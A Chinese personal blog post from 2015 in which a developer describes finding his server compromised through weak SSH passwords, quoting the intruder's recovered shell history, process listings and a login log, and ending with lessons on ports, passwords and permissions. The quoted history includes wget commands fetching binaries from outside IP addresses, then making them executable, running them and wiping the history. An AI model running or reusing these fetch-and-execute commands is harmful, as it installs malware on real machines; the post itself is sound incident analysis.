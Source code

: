 title: 服务器被黑了!
date: 2015-04-14 00:01:27
tags:
  - 被黑了
  - 服务器日志
categories: 服务器
keywords:
  - Pandorabox
  - Hacked
  - 渣渣
  - Arylo
  - Lintel
---

> 20150413 11:15PM, 准备睡觉的时候, lintel大大打给我说, 服务器上传流量异常.

# 我是那个时刻准备着(误)的三好程序猿
作为一个门口埋好地雷, 深夜三分钟即时上线的程序员, 立刻打开那台慢到掉渣的手提, 来处理这事.

既然有上传, 就是说程序还在运行中, 而且这服务器还没有开始正式投入, 负载不高, 稍微`top`一下就发现一个叫`prfos`的程序在跑.
查了一下, 是git用户运行它的.
遭了, 那是调试用, 所以随便弄了个弱密码, 现在被别人弄进来了....哎..我的错

# 他干了什么?
我跳到`/home/git`目录, 发现`.bash_history`还在, 天助我也!!

## 这是他执行的命令

```
su arylo
w
cat /proc/cpuinfo
ls
w
cat /proc/cpuinfo
ls
ps -x
uname -a
ss
cd //tmp
wget http://122.224.32.6:5547/prfos
wget http://183.60.110.3:6219/netns
chmod 7777 ./netns
./netns
chmod 7777 ./prfos
./prfos
cat /dev/null > ./.bash_history
```

看到第一句, 我还是蛮开心的, 至少我的密码没有被破解, 估计他觉得和git一样是弱密码,
后面的基本不用说了, 下载木马, 运行它们.
但有一句让我哭笑不得的命令出现了
`cat /dev/null > ./.bash_history`
我不知道说他是小菜鸟还是粗心什么的, 竟然可以出现这样的失误...导致我看到以上这些命令

## 停止它吧
好了, 竟然知道运行了什么, 就搜一搜怎样消灭他呗
可是无论是谷娘还是度娘, 但就是没有相关杀除的信息, 是毒性不强的问题吧?
```
arylo@localhost:/tmp$ ps -A|grep prfos
20244 ?        00:57:31 prfos
arylo@localhost:/tmp$ ps -A|grep netns
   12 ?        00:00:00 netns
20219 ?        00:00:10 netns
```
只好手动rm他们, 再kill一下他们, 并祈祷不要再运行了

PS.主要是git用户运行的程序不多, 所以基本可以找到那个是有问题的

# 还有谁

```
arylo@localhost:/proc$ last
lintel   pts/1        li406-14.members Mon Apr 13 15:54   still logged in
arylo    pts/0        183.37.34.131    Mon Apr 13 15:06   still logged in
git      pts/0        58.46.18.253     Mon Apr 13 04:54 - 04:54  (00:00)
test     pts/0        113.98.255.48    Sun Apr 12 23:32 - 23:32  (00:00)
git      pts/0        114.112.54.22    Sun Apr 12 19:48 - 20:00  (00:11)
test     pts/0        192.3.159.181    Sat Apr 11 18:04 - 18:04  (00:00)
test     pts/0        27.112.8.214     Sat Apr 11 12:51 - 12:51  (00:00)
test     pts/0        li610-201.member Fri Apr 10 16:09 - 16:09  (00:00)
git      pts/0        198.23.132.34    Fri Apr 10 11:51 - 11:51  (00:00)
test     pts/0        f499.fuchsia.fas Thu Apr  9 04:54 - 04:54  (00:00)
test     pts/0        195.154.165.112  Wed Apr  8 13:36 - 13:36  (00:00)
test     pts/0        c099-250.cloud.g Tue Apr  7 09:17 - 09:17  (00:00)
test     pts/0        113.98.255.48    Mon Apr  6 16:35 - 16:35  (00:00)
test     pts/0        176.111.32.9     Mon Apr  6 14:54 - 14:54  (00:00)
arylo    pts/0        14.157.176.72    Sat Apr  4 06:40 - 14:00  (07:19)
arylo    pts/0        183.37.30.83     Fri Apr  3 16:52 - 20:12  (03:19)
arylo    pts/1        li729-87.members Fri Apr  3 10:17 - 10:34  (00:17)
arylo    pts/0        li729-87.members Fri Apr  3 09:24 - 10:20  (00:56)
arylo    pts/0        li729-87.members Fri Apr  3 09:13 - 09:24  (00:10)
arylo    pts/0        li729-87.members Fri Apr  3 09:11 - 09:13  (00:01)
arylo    pts/0        li729-87.members Fri Apr  3 08:47 - 09:08  (00:21)
git      pts/0        bolobolo1.torser Thu Apr  2 13:47 - 13:47  (00:00)
git      pts/0        tor.scenehoster. Thu Apr  2 13:19 - 13:20  (00:00)
```

为了保证以后的不再出现这种事情, last了一下,
精了Σ( ° △ °|||)︴
竟然这么多, IP都搜一下, 好像都是肉鸡, 好在没有对这服务器做什么...
除了git, 还有test, 都是弱密码的主...还是我的（﹀＿﹀）

# 总结

总结一下这件事所暴露的问题和解决方法
> Q: SSH一下被人登上了（┬＿┬）
> A: 改SSH的端口, 保证安全性
>
> Q: 弱密码惹的祸
> A: 以后不能这样了, 内部的都要改一下
>
> Q: 竟然被人运行了程序
> A: 以后真的要分配好权限...test用户给人跑进来了, 不过设置了`nologin`, 所以没事
> A: 还有还有, 以后真的一用户一类程序比较好
> A: 定期更新密码说不定是个好方法?
